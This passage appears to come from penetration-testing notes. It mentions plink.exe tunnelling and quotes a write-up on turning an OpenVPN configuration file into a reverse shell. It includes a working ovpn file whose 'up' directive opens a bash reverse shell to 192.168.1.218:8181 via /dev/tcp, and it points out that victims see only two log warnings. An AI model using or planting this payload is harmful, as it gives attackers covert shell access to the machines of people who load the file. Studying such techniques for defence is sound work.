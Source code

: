 It can also be used to perform SSH tunnelling, have a look at -L, -R and -D options. On Kali Linux box it is present at /usr/share/windows-binaries/plink.exe

### OpenVPN Configuration File Reverse Shell?

Taken from [Reverse Shell from an OpenVPN Configuration File](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

An ovpn file is a configuration file provided to the OpenVPN client or server. The file details everything about the VPN connection: which remote servers to connect to, the crypto to use, which protocols, the user to login as, etc.

At its most simple form, an ovpn file looks like the this:

```none
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
```

This directs the client to connect to the server at 192.168.1.245 without authentication or encryption and establish the tun interface for communication between the client (10.200.0.2) and the server (10.200.0.1).

The OpenVPN configuration feature is important is the up command. This is how the manual describes it:

```none
Run command cmd after successful TUN/TAP device open (pre — user UID change).
cmd consists of a path to script (or executable program), optionally followed by arguments. The path and arguments may be single- or double-quoted and/or escaped using a backslash, and should be separated by one or more spaces.
```

Basically, the up command will execute any binary of script you point it to

#### Linux

If the victim is using a version of Bash that supports /dev/tcp then getting a reverse shell is trivial. The following ovpn file will background a reverse shell to 192.168.1.218:8181.

```none
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.1.218/8181 0<&1 2>&1 &'"
```

When this ovpn file is used it won’t be obvious to the user that something is wrong. The VPN connection is established normally and traffic flows. There are only two indications in the log that perhaps something is afoot.

```none
Thu Jun 7 12:28:23 2018 NOTE: the current — script-security setting may allow this configuration to call user-defined scripts
Thu Jun 7 12:28:23 2018 ******* WARNING *******: All encryption and authentication features disabled — All data will be tunnelled as clear text and will not be protected against man-in-the-middle changes. PLEASE DO RECONSIDER THIS CONFIGURATION!
```
